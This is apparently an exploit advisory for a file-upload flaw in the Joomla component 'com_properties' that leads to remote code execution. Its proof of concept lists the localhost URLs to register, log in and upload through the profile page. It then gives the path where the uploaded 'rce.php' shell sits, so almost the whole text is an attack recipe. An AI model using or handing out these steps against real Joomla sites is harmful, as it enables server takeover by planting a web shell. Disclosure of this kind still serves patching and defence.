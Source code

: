 
#Exploit Title: Joomla Component 'com_properties' File Upload/RCE

* Google Dork: NA


* Exploit Author: Und3r-r00t

* Tested on: Centos

* PoC  
  * register and login
  `http://localhost/index.php?option=com_user&task=register&Itemid=`
  
  `http://localhost/index.php?option=com_user&view=login`

  * Upload File 
  `http://localhost/index.php?option=com_properties&amp;view=profile&amp;Itemid=19`

  * File path
  `http://localhost/images/properties/profiles/rce.php`



twitter - @p33rl
